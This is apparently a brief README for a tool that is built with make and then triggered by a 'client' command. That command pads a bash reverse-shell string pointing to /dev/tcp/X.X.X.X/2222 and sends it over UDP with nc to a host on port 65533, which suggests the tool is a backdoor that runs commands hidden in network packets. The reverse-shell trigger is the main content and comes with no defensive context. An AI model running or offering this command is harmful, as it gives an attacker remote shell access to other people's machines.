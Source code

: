 # build and run
```
make app
./a.out
```

![image](https://user-images.githubusercontent.com/1846319/184612669-b393c611-0465-4a20-a7f1-09a70f5f8498.png)

# client

```
printf %-200s 'test bash -i >& /dev/tcp/X.X.X.X/2222 0>&1 end'|nc Y.Y.Y.Y 65533 -u
```

